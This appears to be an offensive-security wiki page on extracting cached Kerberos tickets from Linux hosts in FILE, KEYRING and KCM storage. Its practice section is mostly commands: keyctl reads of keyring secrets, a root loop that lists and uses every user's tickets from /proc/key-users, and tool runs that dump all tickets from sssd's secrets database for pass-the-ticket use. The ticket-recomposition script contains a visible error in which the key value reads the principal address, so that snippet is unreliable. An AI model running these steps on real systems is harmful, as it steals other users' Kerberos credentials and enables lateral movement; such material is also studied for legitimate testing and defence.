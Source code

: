 ```yaml
---
authors: Hakumarachi
---
```


# 🛠️ Cached Kerberos tickets

## Theory
### Introduction
On Linux, **tickets can be stored in 3 different way** which indicate **where tickets can be found:**

| Storage     | Details                                                                                                                                   |
|-------------|-------------------------------------------------------------------------------------------------------------------------------------------|
| **FILE**    | Stores tickets in files, by default under **/tmp** directory, in the form **krb5cc_%{uid}**                                               |
| **KEYRING** | Stores tickets in a special space **in the Linux kernel only accessible for the user himself**                                            | 
| **KCM**     | Stores ticket in a LDAP-Like database, by default at **/var/lib/sss/secrets/secrets.ldb** -> This is the default configuration using sssd | 

The variable **default_ccache_name** in the **/etc/krb5.conf** file, which by default has read permission to any user, indicate the type of storage used by the system.

> [!TIP] TIP
> This value can be overwrited by a file inside /etc/krb5.conf.d/
> 
> By default, using sssd, the value is configured into **/etc/krb5.conf.d/kcm_default_ccache**

## Practice

:::tabs

== FILE

Tickets are accessible under the configured directory (**/tmp** by default). 
Those files can directly be used with [Pass-the-tickets](../../kerberos/ptt.md) 

== KEYRING

> [!TIP] TIP
> Keyring content can only be read by the content owner, root himself cannot read other user's keyring content.
> 
> But root can still use `su - $user` !

`keyctl`, which is almost always installed on target using keyring storage, can be used to read keyring content.
```bash
#Fisrt get persistent keyring address
[root@centos01 ~]# keyctl get_persistent @u
30711432

# Show the keyring content at the previously found address
[root@centos01 ~]# keyctl show 30711432
Keyring
  30711432 ---lswrv      0 65534  keyring: _persistent.0
 127492740 --alswrv      0     0   \_ keyring: _krb
 556713767 --alswrv      0     0       \_ user: krb_ccache:primary
1002684101 --alswrv      0     0       \_ keyring: 0
 110355059 --alswrv      0     0           \_ user: __krb5_princ__
 575224320 --als-rv      0     0           \_ big_key: krb5_ccache_conf_data/pa_type/krbtgt\/LAB.LOCAL\@LAB.LOCAL@X-CACHECONF:
 161110247 --als-rv      0     0           \_ big_key: krbtgt/LAB.LOCAL@LAB.LOCAL
 760223933 --alswrv      0     0           \_ user: __krb5_time_offsets__
```

To recompose a kerberos ticket, values of `user: __krb5_princ__`, (110355059 in this example) here,  and `big_key: $SERVICE` (*161110247* in this example) are needed

```bash
# Get __krb5_princ__ value
keyctl print $PRINCIPALS_ADDRESS

# Get big_key: value
keyctl print $KEY_ADDRESS
```

This will output a hex string. Append this as bytes to the kerberos tickets header to retrieve a usable ticket :

```bash
# set ticket header
HEADER='0504000c00010008ffffffff00000000'

# set ticket principal
PRINCIPALS=$(keyctl print $PRINCIPALS_ADDRESS | awk -F : '{print $3}')

#set ticket key
KEY=$(keyctl print $PRINCIPALS_ADDRESS | awk -F : '{print $3}')

# Compose the ticket
ticket=$HEADER$PRINCIPALS$KEY

# Write into file
echo "$ticket" | xxd -r -p >> ticket.ccache
```

[CCacheExtractor](https://github.com/Hakumarachi/ccacheExtractor) can also be used to recompose the ticket from these values
```bash
# Recompose the ticket
python3 ccacheExtractor.py keyring --principals $PRINCIPALS --key $KEY
```

This file can then be used with [Pass-the-tickets](../../kerberos/ptt.md)

> [!TIP] TIP
> Since a joined domain Linux can have a lot of user, it would be tedious to check for each possibility if a ticket is present in the keyring.
> 
> Fortunately, the file **/proc/key-users**, readable by everyone, contains the list of users who are using the keyring.
> 
> As root is then possible to list all ticket and use them directly from the system

```bash
# Print all tickets 
for uid in `awk '{print$1}' /proc/key-users | tr -d :` ; do res=`KRB5CCNAME=KEYRING:persistent:$uid klist 2>&1` ; if [ $? -eq 0 ] ; then echo ; echo === UID $uid === ; echo "$res" ; fi ; done

# Or use a specific ticket
KRB5CCNAME=KEYRING:persistent:$UID #Do kerberos stuff here
```

> [!WARNING] WARNING
> Note that this method permit to list or directly use all tickets, but didn't allow to extract them to use them from another system

> [!SUCCESS] SUCCESS
> [keyringCCacheDumper](https://github.com/Hakumarachi/keyringCCacheDumper) can be used to extract all tickets automatically.

== KCM

When using KCM storage method all tickets are stored into the **.ldb** database file. By default this file is only readable by root user

[CCacheExtractor](https://github.com/Hakumarachi/ccacheExtractor) can be used to extract all tickets from the database.
```bash
#Extract all ccache stored into .ldb database
python3 ccacheExtractor.py kcm ./secrets.ldb
```

Extracted tickets can then be used with [Pass-the-tickets](../../kerberos/ptt.md)
:::

